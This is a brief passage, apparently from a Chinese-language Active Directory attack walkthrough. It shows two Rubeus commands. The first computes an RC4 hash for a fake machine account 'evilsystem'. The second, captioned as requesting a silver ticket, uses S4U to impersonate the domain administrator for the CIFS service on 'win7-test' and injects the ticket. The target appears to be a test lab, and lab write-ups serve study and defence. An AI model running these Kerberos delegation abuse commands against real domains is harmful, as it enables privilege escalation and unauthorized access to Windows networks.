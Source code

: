 
```plain
Rubeus.exe hash /user:evilsystem /password:evil /domain:hacke.testlab
```

[![](assets/1705982146-70335b1b675ed09302dbbf566788d666.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223918-b13179be-b7a1-1.png)  
Step 3：使用 rebues 请求的白银票据

```plain
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/win7-test /ptt
```
